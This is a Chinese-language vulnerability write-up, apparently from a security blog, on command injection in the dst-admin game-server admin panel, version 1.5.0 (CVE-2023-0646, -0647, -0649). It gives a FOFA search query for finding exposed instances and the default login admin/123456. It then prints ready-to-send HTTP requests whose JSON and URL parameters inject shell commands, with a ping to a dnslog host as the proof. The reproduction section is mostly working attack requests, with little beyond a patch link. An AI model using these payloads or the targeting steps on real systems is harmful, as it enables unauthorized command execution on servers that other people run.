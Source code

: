 #  dst-admin饥荒管理后台相关漏洞合集   
无问  巢安实验室   2024-04-07 21:30  
  
### 0x01 产品简介  
  
dst-admin饥荒管理后台是qinming99个人开发者的一个用 Java 语言编写的 web 程序。  
### 0x02 漏洞概述  
  
dst-admin饥荒管理后台kickPlayer、cavesConsole、sendBroadcast等接口处配置不当，导致破解口令后的攻击者可以进行命令注入，获取服务器权限。  
### 0x03 影响范围  
  
dst-admin 1.5.0版本  
### 0x04 复现环境  
  
FOFA：title=="饥荒管理后台"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyPVX9gy9giaMWnoxGnR76yFwRNdygAQAl5gebX6zl0oiajhWqTMkmNolU3TqMMpuFrg5FPGQMZHJBg/640?wx_fmt=png&from=appmsg "")  
### 0x05 漏洞复现  
  
**弱口令登录**  
  
admin/123456  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyPVX9gy9giaMWnoxGnR76yFDic8smf6XfCOWRljialXoKFSMtbicySictJhAFXb4icNTZVPUxEcMlic8I2g/640?wx_fmt=png&from=appmsg "")  
  
**CVE-2023-0646**  
```
POST /home/cavesConsole HTTP/1.1
Host: your-ip
Content-Type: application/json
Cookie: JSESSIONID=65b0f393-708f-4e03-b564-52b1bc0b683a;rememberMe=deleteMe;
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"command":"\"&ping Dnslog;\""}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyPVX9gy9giaMWnoxGnR76yFzcEUwRiaYoSZUDjCIU8AvUygpwubuGo8QA66uXhMlNJmu9YZuiaHRQwQ/640?wx_fmt=png&from=appmsg "")  
  
**CVE-2023-0647**  
```
GET /home/kickPlayer?userId=%5C%22)%5Cn%22%26ping+Dnglog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=93ab200b-a15d-4ac6-8138-abfa1262b5f5;rememberMe=deleteMe;
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyPVX9gy9giaMWnoxGnR76yFNjRwj8jnoOKiaJHGe6QozmblefCv0mqm493DdzlOCFHvo1icYR367VIA/640?wx_fmt=png&from=appmsg "")  
  
**CVE-2023-0649**  
```
GET /home/sendBroadcast?message=%5C%22)%5Cn%22%26ping+dnslog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=94d5d20b-036a-41bf-a77c-334d2be0ed80;rememberMe=deleteMe;
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyPVX9gy9giaMWnoxGnR76yF8bovG17ZC7z2lrKt2M27icibkzum7sSE2gNicjOYwial6ia4vtwBv9SnFDA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/n2rSqJSRAVyPVX9gy9giaMWnoxGnR76yFI4CfLNtOhvn3dTLprwtACscm1Vv3IglOTpDpISEg0TkvENAwhlClOQ/640?wx_fmt=jpeg "")  
### 0x06 修复建议  
  
目前厂商已发布升级补丁以修复漏洞，  
  
补丁获取链接：https://github.com/qinming99/dst-admin  
  
参考链接  
```
https://blog.csdn.net/qq_41904294/article/details/134636492
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/n2rSqJSRAVzNPDEiadhLROCQUuMQyouq2OicjCbTSbk6ZLyzR1uHhPhJZLuZTFaM31tS5jvcDB3sfVsb9novFWeQ/640?wx_fmt=jpeg "")  
  
**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**  
  
****  
**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。公众号内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**  
  
****  
**敲敲小黑板：《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**  
  
  
